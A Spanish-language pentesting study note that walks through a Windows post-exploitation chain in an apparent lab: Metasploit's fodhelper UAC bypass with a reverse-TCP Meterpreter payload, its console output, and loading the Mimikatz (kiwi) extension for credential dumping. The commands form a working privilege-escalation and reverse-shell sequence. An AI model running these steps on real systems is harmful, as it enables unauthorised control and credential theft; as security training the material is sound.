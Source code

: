 # Volcado de memoria con Mimikatz

De las herramientas mas famosas para las `Post-Explotacion` en `Windows` es la deminada `Mimikatz`, es una herramienta la cual tiene muchas funciones para dumpear `hashes`, contraseñas, crear claves, etc...

Podemos encontrar mas informacion en el siguiente link:

URL = [Mimikatz GitHub](https://github.com/gentilkiwi/mimikatz/tree/master)

Lo que primero haremos sera comprometer la maquina `windows` teniendo un `meterpreter` desde `metasploit`, lo podremos hacer como en las anteriores veces con el modulo `web_delivery`, una vez que obtengamos una shell, haremos lo siguiente.

Vamos a escalar privilegios `bypasseando` el `UAC` como hicimos anteriormente.

```shell
use windows/local/bypassuac_fodhelper
```

La configuracion:

```shell
set session 1
set target 1
set LHOST <IP>
set LPORT 5555
set payload windows/x64/meterpreter/reverse_tcp
exploit
```

Info:

```
*] Started reverse TCP handler on 192.168.5.186:5555 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\system32\cmd.exe /c C:\Windows\System32\fodhelper.exe
[*] Sending stage (201798 bytes) to 192.168.5.181
[*] Cleaining up registry keys ...
[*] Meterpreter session 2 opened (192.168.5.186:5555 -> 192.168.5.181:49778) at 2024-11-22 04:08:21 -0500

meterpreter >
```

Ahora lo que vamos hacer es cargar `mimikatz` con el siguiente comando:

```shell
load kiwi
```

Y con `help kiwi` podremos ver todos los comandos.
